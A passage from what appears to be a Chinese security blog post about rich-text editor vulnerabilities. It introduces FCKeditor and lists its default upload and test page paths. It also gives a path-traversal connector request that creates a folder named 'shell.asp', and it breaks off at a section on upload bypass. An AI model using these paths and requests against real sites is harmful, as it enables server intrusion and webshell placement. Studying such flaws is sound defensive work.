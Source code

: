 #  常见编辑器漏洞   
原创 信安路漫漫  信安路漫漫   2025-02-11 23:01  
  
## 前言  
  
目前很多的项目都会使用富文本编辑器，如果使用或者配置不当，这些编辑器就会成为我们入侵的入口，本篇文章就来看看目前常用的编辑器都有哪些以及存在什么样的漏洞。  
## 常用的编辑器  
  
目前项目中常用的一些编辑器如下  
  
![1734426179_67613e43b5834cf471e75.png!small?1734426180222](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBxgkSlMo2mNeMX7DIt5NRh1kcNEQBbkjJywHN9WTicSibTHBIeNoBUUrCic1ia9SE3vFBqJSm0NzLMibkw/640?wx_fmt=jpeg&from=appmsg "")  
## FCKeditor  
### 简介  
  
FCkEditor是一个流行的开源富文本编辑器，提供了类似Microsoft Word的Web页面编辑体验。它支持跨平台、自定义编辑功能、多语言支持和源码编辑，具有强大的API接口，适合各种复杂网页内容编辑。开发者可以通过集成FckEditor实现内容的动态保存和加载，尽管现在被CKEditor取代，但FckEditor为富文本编辑领域打下了基础，并继续为开发者提供高效的网页内容编辑解决方案。  
  
官方已经停止了该产品的更新，其最新版是2.6.6，于2010年2月15日发布。取代FCKeditor的是产品是CKEditor。CKEditor没有找到可以直接利用的漏洞。  
### php下使用例子  
  
FCKeditor支持ASP.Net、ASP、ColdFusion 、PHP、Jsp、Active-FoxPro、Lasso、Perl、Python 等编程环境。下面来看一下在php环境中的一个例子  
```
include("fckeditor/fckeditor.php") ;   //调用FCKeditor必须先载入FCKeditor类文件
//接下来，我们需要创建FCKeditor实例、指定FCKeditor存放路径和创建（显示）编辑器等
$oFCKeditor = new FCKeditor('FCKeditor1') ; // 创建FCKeditor实例
$oFCKeditor->BasePath = './fckeditor/'; // 设置FCKeditor目录地址
$FCKeditor->Width='100%'; //设置显示宽度
$FCKeditor->Height='300px'; //设置显示高度的高度
$oFCKeditor->Create() ; // 创建编辑器 
```  
  
### FCKeditor下常用的目录  
查看版本/FCKeditor/editor/dialog/fck_about.html /FCKeditor/_whatsnew.html默认上传页面可以访问这些页面看系统中是否存在默认的上传页面/FCKeditor/editor/filemanager/browser/default/browser.html /FCKeditor/editor/filemanager/browser/default/connectors/test.html        //上传以后的文件存放位置可以访问：/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/ /FCKeditor/editor/filemanager/upload/test.html /FCKeditor/editor/filemanager/connectors/test.html /FCKeditor/editor/filemanager/connectors/uploadtest.html实例上传地址/FCKeditor/_samples/default.html /FCKeditor/editor/fckeditor.html /FCKeditor/editor/fckdialog.html  
  
### 列目录漏洞  
  
/FCKeditor/editor/fckeditor.html 不可以上传文件，但又一个浏览服务器文件的功能，有可能显示文件目录，前提是存在上面的上传地址  
  
可以通过修改CurrentFolder参数使用../../来进入不同的目录  
```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=shell.asp
```  
### FCKeditor 2.4.2 for php以下修改Media类型进行上传  
  